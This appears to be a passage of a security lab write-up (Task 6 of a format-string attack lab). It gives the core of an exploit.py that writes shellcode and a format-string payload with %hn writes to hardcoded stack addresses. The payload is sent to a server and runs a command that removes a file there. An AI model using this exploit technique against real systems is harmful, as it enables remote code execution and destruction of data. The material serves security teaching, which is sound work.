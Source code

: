 # Task 6

Write `exploit.py` with such a critical part as below:

```{.python}
# Put the code at the end
start = N - len(malicious_code)
content[start:] = malicious_code

ret_addr = 0xbffff038 + 4
str_addr = 0xbffff0e0 + 100  # the length of format string <= 100, it will jump to a NOP then to malicious code
content[:4] = (ret_addr).to_bytes(4, byteorder='little')
content[4:8] = (ret_addr + 2).to_bytes(4, byteorder='little')
higher, lower = divmod(str_addr, 0x10000)
lower = (lower - 8) % (0x10000)
higher = (higher - lower - 8) % (0x10000)
s = "%" + str(lower) + "x%80$hn%" + str(higher) + "x%81$hn"
fmt = s.encode('latin-1')
content[8:8 + len(fmt)] = fmt
```

Then send the content in `badfile` to the server. Now we can execute `/bin/bash -c '/bin/rm /tmp/myfile'` on the server.

![Remove files on the server](./rm.png)
